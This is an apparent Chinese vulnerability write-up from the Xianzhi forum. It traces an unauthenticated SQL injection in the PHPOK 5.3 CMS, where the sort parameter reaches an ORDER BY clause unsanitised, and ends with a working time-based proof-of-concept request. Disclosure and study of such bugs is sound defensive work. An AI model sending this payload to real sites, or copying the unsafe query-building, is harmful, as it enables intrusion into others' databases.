 

# 某 OK 5.3 最新版前台无限制注入（二） - 先知社区

某 OK 5.3 最新版前台无限制注入（二）

- - -

最近跟了一下最新 phpok，分享一下挖掘思路  
下载地址：[https://www.phpok.com/phpok.html](https://www.phpok.com/phpok.html)

## 分析

注入点：framework/model/list.php#arc\_all

```bash
public function arc_all($project,$condition='',$field='*',$offset=0,$psize=0,$orderby='')
    {
        if($this->_total > 100000 && $offset > 10000){
            return $this->_arc_all($project,$condition,$field,$offset,$psize,$orderby);
        }
        $sql  = " SELECT ".$field." FROM ".$this->db->prefix."list l ";
        $sql .= " JOIN ".$this->db->prefix."list_".$project['module']." ext ";
        $sql .= " ON(l.id=ext.id AND l.site_id=ext.site_id AND l.project_id=ext.project_id) ";
        if($project['is_biz']){
            $sql .= " LEFT JOIN ".$this->db->prefix."list_biz b ON(b.id=l.id) ";
        }
        if($project['cate'] && $project['cate_multiple']){
            $sql.= " LEFT JOIN ".$this->db->prefix."list_cate lc ON(l.id=lc.id) ";
        }
        if($condition){
            $sql .= " WHERE ".$condition." ";
        }
        // 拼接$orderby 参数
        if($orderby){
            $sql .= " ORDER BY ".$orderby." ";
        }
        if($psize){
            $sql .= " LIMIT ".intval($offset).",".$psize;
        }
        //注入
        $rslist = $this->db->get_all($sql,'id');
        if(!$rslist){
            return false;
        }
        return $this->_arc_list_format($rslist,$project);
    }
```

回溯寻找调用链：`framework/phpok_call.php#_arclist`

```bash
private function _arclist($rs,$cache_id='')
{
    // 264 行
    $orderby = $rs['orderby'] ? $rs['orderby'] : $project['orderby'];

    // 270行 调用arc_all函数，将$orderby传入
    $rslist = $this->model('list')->arc_all($project,$condition,$field,$offset,$psize,$orderby);
```

回溯：framework/api/project\_control.php#load\_module

```bash
private function load_module($rs,$parent_rs='')
{
    // 91 行
    $keywords = $this->get("keywords");
    $ext = $this->get("ext");
    $tag = $this->get("tag");
    $uid = $this->get('uid','int');
    $attr = $this->get('attr');
    //价格，支持价格区间
    $price = $this->get('price','float');
    $sort = $this->get('sort');

    //186行
    if($sort){
        $dt['orderby'] = $sort;  // 可控
        $pageurl .= '&sort='.rawurlencode($sort);
        $this->rlist['sort'] = $sort;
    }
    // 208行，通过phpok函数动态调用_arclist()函数
        $info = $this->call->phpok('_arclist',$dt);
```

继续回溯，找谁调用了`load_module()`：framework/api/project\_control.php#index\_f

```bash
public function index_f()
{
    //65 行
        if($project["module"]){
        $this->load_module($project,$parent_rs);
    }
}
```

在控制器里以`_f`结尾的函数都可以直接被调用  
构造 poc:`/api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5))`

## 复现：

poc:

```bash
GET /api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5)) HTTP/1.1
Host: phpok5_3_147
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3833.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4; XDEBUG_SESSION=PHPSTORM
Connection: close
```

[![](assets/1698897419-d8d551571c42b7171795183b67315a8f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191125161910-41ae0d4c-0f5c-1.png)

sleep(4) 延时 24 秒

[![](assets/1698897419-2829c308c3d4dab07ce78f72d9d3075e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191125161958-5ea36afa-0f5c-1.png)

数据库特性，查出几列数据 order by 会 sleep 几倍时间：

[![](assets/1698897419-73d4f92ece8eed456733913c74df7b11.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191125162025-6e6c7df0-0f5c-1.png)
